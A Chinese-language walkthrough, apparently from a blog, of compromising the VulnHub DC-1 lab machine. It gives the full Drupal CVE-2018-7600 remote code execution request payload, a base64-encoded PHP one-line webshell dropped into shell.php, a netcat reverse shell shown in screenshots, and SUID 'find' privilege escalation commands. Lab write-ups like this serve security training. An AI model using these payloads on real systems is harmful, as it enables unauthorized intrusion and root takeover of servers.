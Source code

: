 # DC1：渗透实战

- 下载地址:

``` 
  https://www.vulnhub.com/entry/dc-1,292/
```
###  主机发现：

- 使用nmap扫描内网存活主机，
![image](https://github.com/hecker-zz/blog/assets/153266742/0e18d656-5228-427a-8f79-ddb5a1c91368)

- 对照DC1物理地址发现是192.168.200.152这个IP
![image](https://github.com/hecker-zz/blog/assets/153266742/c5a22eec-e1be-406d-a32d-b4bef5d10809)

###  端口扫描：
![image](https://github.com/hecker-zz/blog/assets/153266742/423deeeb-0c13-4176-91f2-ba589c99dcbd)

- 发现开放了80端口，那么直接进去看看
![image](https://github.com/hecker-zz/blog/assets/153266742/c972a6ab-7d7e-4345-929e-417b144f8d8e)

### 经过漏扫发现该地址存在CVE-2018-7600,RCE漏洞，那么直接直接利用该漏洞。
### 第一次请求：
- 进入Burpsuite把该页面请求发送到重放模块，并把请求类型改为post，并提交两个参数，
```
URL：/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=id

请求参数：form_id=user_pass&_triggering_element_name=name
```
![image](https://github.com/hecker-zz/blog/assets/153266742/383d7082-7143-44a3-a235-30f2decdc4af)


- 点击发送后在response里搜索form_build_id，该标签里的值拿到
![image](https://github.com/hecker-zz/blog/assets/153266742/0c1c5045-280b-4395-8dee-931b6170a879)

### 第二次请求：
- 拿到后创建第二次请求，ctrl+r发送到重放模块并构造参数,在url中的`file/ajax/name/%23value/`接上刚刚拿到的值，然后再下面请求部分输入`form_build_id=`在后面也是接上刚刚拿到的值。
![image](https://github.com/hecker-zz/blog/assets/153266742/bc9c7268-8ae2-4ca3-9fd7-6ab7e93fcfe2)

- 提交请求后发现，response中执行了我们刚刚所发的id。
![image](https://github.com/hecker-zz/blog/assets/153266742/107cd0c3-477b-4e6f-a0a7-8580ca270e95)


### 发送小马到目标服务器，拿下webshell
- 既然发现了RCE那么只需要把`id`的地方替换成我们的木马即可。先把一句话木马进行bese64编码，然后用echo把它写入到当前目录中的一个文件里即可，然后再对整体进行url编码
```
一句话木马： <?php @eval($_REQUEST[777])?>
bese64编码： PD9waHAgQGV2YWwoJF9SRVFVRVNUWzc3N10pPz4=
用echo输出到当前目录下的shell.php中： echo "PD9waHAgQGV2YWwoJF9SRVFVRVNUWzc3N10pPz4="|base64 -d|tee ./shell.php
整体url编码： echo%20%22PD9waHAgQGV2YWwoJF9SRVFVRVNUWzc3N10pPz4%3d%22|base64%20%2dd|tee%20./shell.php

```
![image](https://github.com/hecker-zz/blog/assets/153266742/eb86f263-1cfe-4980-a396-c6e82d09a071)

- 点击发送后拿到返回界面的值进入第二次请求中进行之前的步骤
![image](https://github.com/hecker-zz/blog/assets/153266742/73e239a2-c6b3-4b63-b75f-66329bbe97c2)
- 访问一下目标服务器中的shell.php，发现成功了。
![image](https://github.com/hecker-zz/blog/assets/153266742/f29cdd4b-25a7-4657-b35e-4a796a3afa00)

- 直接上蚁剑连接
![image](https://github.com/hecker-zz/blog/assets/153266742/b5683883-cf4b-4851-826a-cae7997ab948)
- 拿下webshell
![image](https://github.com/hecker-zz/blog/assets/153266742/48249e45-9e8c-411d-9d86-c3317a648bfb)

### 提权
- 查看目标机是否有nc
![image](https://github.com/hecker-zz/blog/assets/153266742/10bbff6c-7b29-40ba-9995-f29563e61323)
- 发现有nc，那么直接使用nc反弹shell，首先本地进行监听21端口
![image](https://github.com/hecker-zz/blog/assets/153266742/62ef234b-f554-49a8-8a86-b351897ed7b8)

- 目标直接使用`nc -e `直接反弹shell
![image](https://github.com/hecker-zz/blog/assets/153266742/75fc7d22-96f0-4b4b-87d2-858f25e5cfc4)

- 进入交互式shell
![image](https://github.com/hecker-zz/blog/assets/153266742/c2a19f7f-5c47-4d81-bb90-d181aadc3b73)
- 使用SUID提权
```
find / -perm -u=s 2>/dev/null
mkdir zz
find zz -exec "/bin/sh" \;   不行就用:find zz -exec "/bin/bash" \;
```
![image](https://github.com/hecker-zz/blog/assets/153266742/fde8d702-06a7-4669-9b54-86f2ca2478dc)

- 提权成功，拿到rootshell
![image](https://github.com/hecker-zz/blog/assets/153266742/f0980bc4-a3a9-4367-bf73-0073ea79121e)
![image](https://github.com/hecker-zz/blog/assets/153266742/f8b293d9-651b-40b2-8a28-c8ab34878001)